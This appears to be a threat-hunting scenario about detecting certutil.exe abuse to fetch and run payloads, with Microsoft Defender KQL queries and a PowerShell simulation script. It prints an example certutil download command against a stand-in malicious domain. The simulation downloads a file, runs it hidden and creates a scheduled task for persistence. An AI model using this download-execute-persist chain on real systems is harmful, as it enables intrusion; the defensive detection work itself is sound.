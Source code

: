 # Threat Hunt Scenario: Suspicious Use of Certutil for Payload Download

## 🔍 Threat Event: Suspicious Use of Certutil
**Description:**  
Adversaries used `certutil.exe`, a known Living Off the Land Binary (LOLBIN), to download and execute a suspicious payload.

---

## 🎯 Reason for Threat Hunt

- **Trigger:**  
  Security team received an alert from the firewall indicating an outbound connection to a known malware-hosting domain.

- **Context:**  
  Certutil abuse for downloading files has been highlighted in recent cybersecurity advisories and APT threat intelligence feeds.  
  (Reference: [MITRE ATT&CK T1105 – Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/))

- **Directive:**  
  Management requested a proactive hunt for any endpoints using LOLBINs like `certutil.exe` for unauthorized downloads.

---

## 🧪 Steps Taken by the "Bad Actor" – Logs & IoCs

1. **Command Shell Opened (CMD/PowerShell)**
2. **Payload Downloaded Using Certutil:**

```bash
certutil -urlcache -split -f http://malicious-domain.com/payload.exe C:\Users\Public\payload.exe
```
3. **Payload Executed:**

```vbnet
Copy
Edit
C:\Users\Public\payload.exe
```
4. **Persistence Established:**
Created a malicious scheduled task for persistence.

5. **C2 Connection Established:**
Connected to a remote Command and Control server on port 443.

🧩 Artifacts & Hunting Tables

| Artifact Table              | Purpose                                         |
| --------------------------- | ----------------------------------------------- |
| `DeviceProcessEvents`       | Detect certutil execution and payload execution |
| `DeviceFileEvents`          | Confirm payload was written to disk             |
| `DeviceNetworkEvents`       | Detect outbound connections to C2 servers       |
| `DeviceScheduledTaskEvents` | Identify malicious scheduled task persistence   |

📘 Related KQL Queries
🔍 Certutil Abuse for File Download
```kql
DeviceProcessEvents
| where FileName == "certutil.exe"
| where ProcessCommandLine has_all("http", "-urlcache", "-split", "-f")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine, InitiatingProcessCommandLine
```
📄 Payload Dropped to Disk
```kql
DeviceFileEvents
| where FolderPath contains "C:\\Users\\Public"
| where FileName endswith ".exe"
| where InitiatingProcessFileName == "certutil.exe"
| project Timestamp, DeviceName, FileName, FolderPath, InitiatingProcessCommandLine
```
🚀 Payload Execution
```kql
DeviceProcessEvents
| where FolderPath contains "C:\\Users\\Public"
| where FileName endswith ".exe"
| where InitiatingProcessFileName != "certutil.exe"
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
```
🌐 Network Connections from Payload
```kql
DeviceNetworkEvents
| where InitiatingProcessFileName endswith ".exe"
| where InitiatingProcessFolderPath contains "C:\\Users\\Public"
| where RemotePort == 443
| project Timestamp, DeviceName, InitiatingProcessFileName, RemoteIP, RemoteUrl
```
🛠 Persistence via Scheduled Task
```kql
DeviceScheduledTaskEvents
| where TaskAction contains "payload.exe"
| project Timestamp, DeviceName, TaskName, TaskAction, InitiatingProcessFileName
```
📎 Notes
Monitor use of certutil.exe with suspicious flags (-urlcache, -split, -f).

Prioritize endpoints with public folder .exe executions followed by outbound traffic.

✅ Hunting Goal: Identify and contain endpoints abusing certutil to fetch and launch malicious executables.

## 👤 Created By

* **Author**: Aduragbemi
* **LinkedIn**: [Aduragbemi Oladapo](https://www.linkedin.com/in/aduragbemioladapo/)
* **Date**: June 26, 2025

---

## ✅ Validated By

* **Reviewer**: *TBD*
* **Contact**: *TBD*
* **Date**: *TBD*

---
💻 Simulation Script (Safe)
```Powershell
# Create a simulated payload URL and destination path
$payloadUrl = "https://hel1-speed.hetzner.com/100MB.bin"
$payloadPath = "$env:PUBLIC\payload.exe"

# Use certutil.exe to download the "payload"
Write-Host "[+] Downloading file using certutil..."
Start-Process -FilePath "certutil.exe" -ArgumentList "-urlcache -split -f $payloadUrl `"$payloadPath`"" -Wait

# Confirm file exists
if (Test-Path $payloadPath) {
    Write-Host "[+] Payload downloaded successfully: $payloadPath"
} else {
    Write-Host "[!] Failed to download payload."
    exit
}

# Simulate execution of the payload
Write-Host "[+] Simulating payload execution..."
Start-Process -FilePath "$payloadPath" -WindowStyle Hidden

# Simulate persistence using a scheduled task
$taskName = "SimulatedPayloadTask"
Write-Host "[+] Creating scheduled task for persistence..."
schtasks /create /tn $taskName /tr "$payloadPath" /sc minute /mo 30 /f

# Optional: Wait and then clean up
Start-Sleep -Seconds 5
Write-Host "[+] Cleaning up (Optional)..."
schtasks /delete /tn $taskName /f
Remove-Item $payloadPath -Force

Write-Host "[+] Simulation completed."


```

## 📅 Revision History

| Version | Changes       | Date          | Modified By                |
| ------- | ------------- | ------------- | -------------------------- |
| 1.0     | Initial Draft | June 26, 2025 | Aduragbemi Oladapo |

---

